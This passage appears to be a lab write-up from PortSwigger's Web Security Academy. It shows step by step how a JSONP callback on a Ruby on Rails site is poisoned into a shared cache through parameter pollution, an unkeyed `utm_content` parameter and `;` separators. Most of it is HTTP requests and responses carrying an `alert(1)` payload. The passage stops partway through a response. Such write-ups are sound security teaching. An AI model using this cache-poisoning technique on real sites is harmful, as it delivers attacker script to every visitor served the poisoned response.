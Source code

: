 So we can `GET /js/geolocate.js?callback=alert(1)` and it will be reflected on the response page: 
```bash
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Content-Length: 193

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
alert(1)({"country":"United Kingdom"});
```

The problem is that `?callback=alert(1)` is part of the cache key, which means only users who make `GET /js/geolocate.js?callback=alert(1)` req, will see the response from the poisoned cache

So now we try parameter pollution:
```bash
GET /js/geolocate.js?callback=setCountryCookie&callback=alert(1) HTTP/2
```
And the response:
```bash
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Content-Length: 193

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
alert(1)({"country":"United Kingdom"});
```
We see that it actually gave precedence to the second `callback` query param

Now we need to hide (or to cloak in other words) the second `callback` query param from the caching server
We can do that by searching for unkeyed query params with Param miner > Guess query params

The result of param miner:
```bash
Initiating url bruteforce on labid.web-security-academy.net
Identified parameter on labid.web-security-academy.net: utm_content
```

So we now know that `utm_content` query param is unkeyed. We need to try to use it, in order to cloak the second callback query param from the caching server

It's interesting that usually req query params are separated by `&` sign, but ruby on rails allows `;` for separation of query params

So we try:
```bash
GET /js/geolocate.js?callback=setCountryCookie&utm_content=ff;callback=alert(1) HTTP/2
Host: 0a17001003875ee68349aaf600da000f.web-security-academy.net
```
And in the response:
```bash
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Set-Cookie: utm_content=ff; Secure; HttpOnly
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Content-Length: 193
```